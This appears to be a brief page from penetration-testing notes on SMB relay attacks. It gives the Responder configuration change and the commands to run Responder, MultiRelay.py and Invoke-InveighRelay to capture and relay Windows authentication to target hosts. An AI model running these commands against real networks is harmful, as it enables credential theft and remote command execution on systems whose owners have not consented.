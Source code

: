 # SMB Relay

### MultiRelay.py

For SMB Relay to be possible, you must turn off SMB and HTTP within the responder config file (you can change it back when you have finished)

Set responder.conf to:

![](<../../.gitbook/assets/image (5).png>)

Then run responder:

```
Responder -i xxx.xxx.xxx.xxx -I eth0 -f -b -w
```

Then run the following in another terminal session

```
/usr/share/responder/tools/MultiRelay.py -t <target_IP> -u ALL
```

### Inveigh Relay

Session attack requires SMB tools from Invoke-TheHash

{% embed url="https://github.com/Kevin-Robertson/Invoke-TheHash" %}

```
Invoke-InveighRelay -ConsoleOutput Y -Target 10.0.2.110 -Command "...."
```
